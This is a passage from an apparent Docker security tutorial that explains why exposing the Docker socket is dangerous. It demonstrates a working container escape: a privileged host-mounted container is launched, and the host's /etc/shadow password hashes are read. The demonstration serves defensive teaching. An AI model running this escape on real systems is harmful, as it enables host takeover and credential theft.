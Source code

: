 With this simple step we have mitigated a lot of attacks that would otherwise work.

Another important aspect of security is protecting the Docker socket. A lot of vendor images ask you to expose
`/var/run/docker.sock` in the container. While this may have legitimate uses when the image really needs to interact
with the Docker engine itself, it basically means that you are giving the container root access to your host machine.

Let's do a little exercise:

```bash
$ docker run -v \
    /var/run/docker.sock:/var/run/docker.sock:ro \
    -ti \
   ubuntu \
   /bin/bash

# We are now in a container, let's install Docker
root@fbf9a9767805:/# apt update -y && \
     apt install -y docker.io

# And here comes the escape out of the container.
root@fbf9a9767805:/# docker run --privileged \
    --net=host \
    --pid=host \
    -ti \
    -v /:/root \
    ubuntu

root@janoszen-laptop:/# cat /root/etc/shadow 
```

And I now have your password hashes on the host machine. What happened here is that I installed Docker in the container
and then used the mounted Docker socket to launch a container outside, mounting the host filesystem in a folder.
Since I have access to the Docker socket I was able to do this and I can now read the entire host filesystem. 
Furthermore, I launched a privileged container with the host networking and pid namespace, so I have complete
control over your host system. Ouch!

So be very, very, *very* careful which container you entrust with your Docker socket. Some container orchestrators, like
Kubernetes, mitigate this with RBAC (Role-Based Access Control), but in general keep in mind that having direct access
to your Docker socket, or Kubernetes Kubelet equals a really really bad day. Really bad.

### Health checks

Now, how about stability? How do we know our container is *actually* working? What if the software dies and is left
running only in a half-working state, just enough to keep the container running? Docker addresses this by implementing
health checks. These are simple scripts that periodically run and check if the service is still running.
